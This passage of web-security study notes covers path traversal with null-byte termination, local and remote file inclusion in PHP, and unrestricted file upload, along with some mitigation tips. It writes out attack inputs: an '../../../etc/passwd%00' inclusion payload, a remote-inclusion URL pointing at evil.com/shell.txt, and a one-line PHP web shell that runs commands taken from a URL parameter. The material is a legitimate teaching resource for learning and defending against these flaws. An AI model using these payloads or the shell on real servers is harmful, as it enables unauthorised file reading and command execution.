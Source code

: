 A specific sequence can be used to terminate the current filename. This sequence takes the name of "NULL BYTE": `%00`. This can be useful to terminate the string in case something else is appended to it by the web application.
Note that the "NULL BYTE" does not work with PHP versions >= 5.3.4.

In order to *prevent path traversal* attacks, we need to filter any malicious sequences from the input parameters. Web applications that perform filtering operations on the nasty characters (e.g. `.`, `/`, `\`, `../`, `..\`, `%00`) should be aware of different encodings.

**File Inclusion** vulnerabilities are divided into Remote and Local, depending on where the file to include is located.

*Local File Inclusion* (LFI).
This type of vulnerability is usually found in little custom made CMSs where pages are loaded with an `include` and their paths taken from the input.

For example, let us suppose that the target application changes its content depending on the location of the visitor. The URL will be something like this: `http://target.site/index.php?location=IT` and that the PHP code handles the parameter as follows: `<?php include ("loc/" . $_GET['location']); ?>`.

If instead, the code looks like this: `<?php include ($_GET['location'] . "/template.tlp"); ?>`, a valid exploit would be: `index.php?location=../../../etc/passwd%00`, where `%00` is the null character that terminates the string.

*Remote File Inclusion* (RFI) works the same way as LFI. The only difference is that the file to be included is pulled remotely.
Our aim in this case is not just to read but, to include our own code in the execution.

For example, an exploitable URL would look like this: `vuln.php?page=http://evil.com/shell.txt`.
In this case, `shell.txt` (containing PHP code), will be included in the page and executed. A common exploit to this vulnerability is to include a PHP shell that would let the hacker or the pentester execute any code on the server.
Exploiting RFI requires that you have a PHP shell uploaded somewhere and accessible from the internet.
Note that there are plenty of shells you can find online, each one with its features and specific functions.

It is important to know that the file included must not have the `.php` extension, otherwise the code within the included file will run on the attacker web server machine, instead of the target web application.

This vulnerability should be checked when an `include` is thought to be present in the code.

Note that the RFI is possible because the `allow_url_include` directive is set to `On` within `php.ini`. It is good practice to set it to `Off`.

**Unrestricted File Upload** vulnerability is one of the most dangerous vulnerabilities a web application can suffer from.
This vulnerability affects all the web applications that allow file upload, without properly enforcing restrictive policies on the maximum size of the file (DoS), and the nature of the file (Image, PDF, PHP).

The impact of this vulnerability depends opon how the file is used by the web application.
If the web application does not perform checks on the filetype uploaded, a malicious user could upload a shell and execute it by browsing to the uploaded file (if the path and file name is predictable or known).
```
<?php
	exec($_GET['command']);
?>
```
With this simple shell, the attacker would be able to launch arbitrary OS commands by specifying them in the URL: `http://fileupload.site/images/myshell.php?command=<Command>`.
